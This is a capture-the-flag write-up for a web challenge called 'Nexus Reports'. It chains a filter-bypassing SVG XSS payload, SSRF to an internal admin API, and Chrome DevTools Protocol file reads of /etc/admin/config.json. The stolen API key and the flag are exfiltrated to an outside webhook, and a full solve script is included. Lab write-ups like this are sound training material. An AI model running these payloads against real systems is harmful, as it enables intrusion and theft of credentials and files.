




## Nexus Reports  



We are given a webpage where we can upload SVG logos and generate reports containing these logos.  



We can find the below script inside the HTML source, which just handles how the frontend interacts with the backend.  

`/upload-logo` allows us to upload an SVG image, while `/generate-logo` allows us to preview the generated report as a PDF or HTML.  

```js
const userId = '06c7f6d9-0fe0-42b8-b425-7e2f4c6f9a76';

async function uploadLogo() {
    const fileInput = document.getElementById('logo');
    const file = fileInput.files[0];

    if (!file) {
    showMessage('Please select a file', 'error');
    return;
    }

    const formData = new FormData();
    formData.append('logo', file);

    try {
    const response = await fetch('/upload-logo', {
        method: 'POST',
        headers: {
        'X-User-Id': userId
        },
        body: formData
    });

    const data = await response.json();

    if (data.success) {
        showMessage('[OK] Logo uploaded successfully.', 'success');
    } else {
        showMessage('[ERR] ' + (data.error || 'Upload failed'), 'error');
    }
    } catch (error) {
    showMessage('[ERR] Upload failed: ' + error.message, 'error');
    }
}

async function generateReport() {
    const title = document.getElementById('title').value;
    const quarter = document.getElementById('quarter').value;
    const sales_data = document.getElementById('sales_data').value;

    if (!title || !sales_data) {
    showMessage('Please fill in all fields', 'error');
    return;
    }

    try {
    JSON.parse(sales_data); // Validate JSON
    } catch (e) {
    showMessage('Invalid JSON format in metrics payload', 'error');
    return;
    }

    try {
    showMessage('[..] Generating report...', 'success');

    const response = await fetch('/generate-report', {
        method: 'POST',
        headers: {
        'Content-Type': 'application/json',
        'X-User-Id': userId
        },
        body: JSON.stringify({
        title,
        quarter,
        sales_data
        })
    });

    const data = await response.json();

    if (data.success) {
        showMessage(`[OK] Report generated. <a href="${data.downloadUrl}">Download PDF</a> &middot; <a href="/preview/${userId}/${data.reportId}" target="_blank">Preview HTML</a>`, 'success');
    } else {
        showMessage('[ERR] ' + (data.error || 'Generation failed'), 'error');
    }
    } catch (error) {
    showMessage('[ERR] Generation failed: ' + error.message, 'error');
    }
}

function showMessage(text, type) {
    const msgDiv = document.getElementById('message');
    msgDiv.innerHTML = text;
    msgDiv.className = 'message ' + type;
    msgDiv.style.display = 'block';
}
```

Inside the HTML source, we can find a comment that reveals a `/health` endpoint.  



Visiting `/health` returns this JSON output. We can immediately notice an admin server `http://internal-admin:8080`, which hints at a XSS vuln.  

```json
{"status":"ok","service":"PDF Report Generator","version":"1.0.0","mounts":{"pdf_cache":"/tmp/pdf-cache/","upload_path":"/app/uploads/","chrome_profile":"/tmp/chrome-data/","admin_secret":"/etc/admin/ (ro)"},"upstreams":{"admin_api":"http://internal-admin:8080"},"puppeteer_version":"21.11.0"}
```

We can try embedding an XSS payload inside the SVG and directly submitting it to `/upload-logo`, but it gets blocked, revealing that our input is being checked against a filter.  

```html
<svg>
    <script>location.href='<webhook>'</script>
</svg>
```

```json
{"error":"Element <script> is not allowed"}
```

The filter blocked almost all common HTML XSS tags and attributes.  

Through some testing, I realised that the filter was only triggered if attribute names were being used as legitimate attributes. This hinted that the backend was probably using some sort of DOM parser to parse the input before checking the tags and attributes.  

```
onload              // not blacklisted
<style onload="">   // blacklist
```

I was able to use the payload below to trick the DOM parser into treating my main payload as a HTML comment, which bypassed the filter.  

```html
<svg>
    <!--><script>location.href='<webhook>'</script>-->
</svg>
```

This time, our webhook received the request, and the server also returned the debug message below.  

From this, we can infer two things:
- admin browser renders our payload on report generation  
- admin browser closes without waiting for asynchronous operations  

```json
{"success":true,"reportId":"3529a773-bf39-4a6d-87d4-dc4585526990","downloadUrl":"/download/hacked/3529a773-bf39-4a6d-87d4-dc4585526990","_debug":"renderer: async ops may not complete before page close"}
```

Now, we can SSRF to the admin endpoint using our XXS primitive. To ensure the reliability of our payload execution, we can force synchronous requests using `XMLHttpRequest()`.  

```js
function req(method, url, header=null) {
    const x = new XMLHttpRequest()
    x.open(method, url, false)
    x.send()

    return x.responseText
}

data = req('GET', 'http://internal-admin:8080')
req('GET', `<webhook>?e=${encodeURIComponent(data)}`)
```

`http://internal-admin:8080` details the entire layout of the admin server.  

The `/api/flag` endpoint requires a valid API key, which needs to be fetched from `/etc/admin/config.json`.  

```json
{"service":"Internal Admin API","version":"1.0.0","status":"operational","note":"Internal service. Reachable only from the internal network.","endpoints":[{"method":"GET","path":"/","auth":false},{"method":"GET","path":"/health","auth":false},{"method":"GET","path":"/api/flag","auth":true}],"authentication":{"scheme":"Bearer","header":"Authorization: Bearer <api_key>","api_key_location":"/etc/admin/config.json"}}
```

Codex suggested using the Chrome Devtools Protocol to get file reads.  

Making a `PUT` request to `/json/new` allows us to open the `/etc/admin/config.json` file inside a new debugging target endpoint.   

```js
function req(method, url, header=null) {
    const x = new XMLHttpRequest()
    x.open(method, url, false)
    x.send()

    return x.responseText
}

data = req('PUT', 'http://127.0.0.1:9222/json/new?file:///etc/admin/config.json')
req('GET', `<webhook>?e=${encodeURIComponent(data)}`)
```

This returns the URL to that debugger endpoint.  

```json
{
   "description": "",
   "devtoolsFrontendUrl": "https://chrome-devtools-frontend.appspot.com/serve_rev/@dbcf1b1bfb506cc580859bcb5ff9460a8443af90/inspector.html?ws=127.0.0.1:9222/devtools/page/4A0FBB267A4813E2400714152EF00C9D",
   "id": "4A0FBB267A4813E2400714152EF00C9D",
   "title": "",
   "type": "page",
   "url": "file:///etc/admin/config.json",
   "webSocketDebuggerUrl": "ws://127.0.0.1:9222/devtools/page/4A0FBB267A4813E2400714152EF00C9D"
}
```

The debugger endpoint essentially opens a page that renders the contents of `/etc/admin/config.json`, so we just need to connect to the websocket to retrieve the contents.  

```js
wsInfo = req('PUT', 'http://127.0.0.1:9222/json/new?file:///etc/admin/config.json')

wsUrl = JSON.parse(wsInfo).webSocketDebuggerUrl
ws = new WebSocket(wsUrl)

;(async () => {
    const res = await new Promise((resolve, reject) => {
        ws.onerror = reject;

        ws.onopen = ()=> {
            ws.send(JSON.stringify({
                id: 1,
                method: "Runtime.evaluate",
                params: {
                    expression: `document.documentElement.outerHTML`
                }
            }));
        };

        ws.onmessage = e => {
            req('GET', `%s?e=${encodeURIComponent(e.data)}`)
        }
    });
})()
```

The contents of `/etc/admin/config.json` will be exfiltrated to our webhook, and we can find the API key inside.  

```json
{"id":1,"result":{"result":{"type":"string","value":"<html><head><meta name=\"color-scheme\" content=\"light dark\"><meta charset=\"utf-8\"></head><body><pre>{\n  \"admin_api_key\": \"29f3aad5268d14d6b64f1ce44657f9b00d534bea5379572960e52c38195d11dd\",\n  \"admin_endpoint\": \"http://internal-admin:8080\",\n  \"service\": \"internal-admin\"\n}\n</pre><div class=\"json-formatter-container\"></div></body></html>"}}}
```

An important thing to note is that the API key changes every few seconds, so we can just modify our script to extract the API key, request `/api/flag`, then exfiltrate the flag page to our webhook.  



Below is my full solve script for this challenge.  

```python
import requests

url = 'http://cddc2026-challs-alb-2050157501.ap-southeast-1.elb.amazonaws.com:7220/'
s = requests.Session()

s.headers.update({
    'X-User-Id': 'hacked'
})

webhook = 'https://zoupbpa.request.dreamhack.games'

payload = '''
<svg>
    <!-->
    <script>
        function req(method, url, header=null) {
            const x = new XMLHttpRequest()
            x.open(method, url, false)

            if (header) 
                x.setRequestHeader(...header)

            x.send()

            return x.responseText
        }

        wsInfo = req('PUT', 'http://127.0.0.1:9222/json/new?file:///etc/admin/config.json')

        wsUrl = JSON.parse(wsInfo).webSocketDebuggerUrl
        ws = new WebSocket(wsUrl)

        ;(async () => {
            await new Promise((resolve, reject) => {
                ws.onopen = () => {
                    ws.send(JSON.stringify({
                        id: 1,
                        method: "Runtime.evaluate",
                        params: {
                            expression: `document.documentElement.outerHTML.match(/"admin_api_key": "(.+)"/)[1]`
                        }
                    }));
                };

                ws.onmessage = e => {
                    key = JSON.parse(e.data).result.result.value

                    flag = req('GET', 'http://internal-admin:8080/api/flag', ['Authorization', `Bearer ${key}`])
                    req('GET', `%s?e=${encodeURIComponent(flag)}`)
                }
            });
        })()
    </script>
    -->
</svg>
'''.strip() % webhook

res = s.post(f'{url}/upload-logo', files={
    "logo": ("logo.svg", payload, "image/svg+xml")
})

assert res.json()['success']
print("> Payload uploaded")

res = s.post(f"{url}/generate-report", json={
    "title": "a",
    "quarter": "a",
    "sales_data": '{}'
})

assert res.json()['success']
print("> Reported")
```

Flag: `CDDC2026{h3adl3ss_chrom1um_cdp_pwn_v1a_svg_f0r3ignObj3ct}`